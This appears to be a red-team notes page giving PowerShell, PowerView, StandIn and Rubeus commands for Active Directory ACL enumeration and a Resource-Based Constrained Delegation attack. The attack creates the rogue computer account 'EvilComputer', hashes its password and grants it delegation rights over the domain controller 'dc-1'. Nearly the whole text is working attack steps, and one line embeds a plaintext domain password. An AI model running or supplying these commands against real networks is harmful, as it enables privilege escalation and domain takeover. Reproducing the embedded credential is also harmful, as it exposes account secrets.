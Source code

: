 1. **Get Current User's SID:**
   ```
   ([System.Security.Principal.WindowsIdentity]::GetCurrent().User).Translate([System.Security.Principal.SecurityIdentifier]).Value -split '-' -join '-'
   ```
   This command retrieves the SID (Security Identifier) of the current user.

2. **Enumerate ACL for Computers with Write Access:**
   ```
   powershell Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|GenericWrite|GenericAll|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-3971172904-580618121-675634979-[\d]{4,10}" }
   ```
   This command enumerates ACLs for domain computers with specific write access rights.

3. **Convert SID to Friendly Name:**
   ```
   powershell ConvertFrom-SID <SID with write DACL access on DC>
   ```
   This command converts the SID obtained from the previous step to a friendly name.

### Performing Resource-Based Constrained Delegation (RBCD):

1. **Create New Computer on a Domain:**
   ```
   execute-assembly /Users/ahmedpinger/Documents/Tools/StandIn/StandIn/StandIn/bin/Release/StandIn.exe --computer EvilComputer --make
   ```
   This command creates a new computer account named `EvilComputer` in the domain.

2. **Obtain Hash for EvilComputer$ Account:**
   ```
   execute-assembly /Users/ahmedpinger/Documents/Tools/Rubeus/Rubeus/bin/Release/Rubeus.exe hash /password:<Password retrieved from the creation of computer> /user:EvilComputer$ /domain:kikrr.local
   ```
   This command obtains the password hash for the `EvilComputer$` account.

3. **Retrieve SID of EvilComputer:**
   ```
   powershell Get-DomainComputer -Identity EvilComputer -Properties objectSid
   ```
   This command retrieves the SID of the `EvilComputer` account.

4. **Grant msDS-AllowedToActOnBehalfOfOtherIdentity Rights:**
   ```
   make_token KIKRR\naa TheNetworkaa1@#
   
   powershell-import /Users/ahmedpinger/Documents/Tools/PowerSploit/Recon/PowerView.ps1

   powerpick $rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-3971172904-580618121-675634979-1601)"; $rsdb = New-Object byte[] ($rsd.BinaryLength); $rsd.GetBinaryForm($rsdb, 0); Get-DomainComputer -Identity "dc-1" | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity' = $rsdb} -Verbose
   ```
   This command grants the `EvilComputer$` account the necessary rights for resource-based constrained delegation.
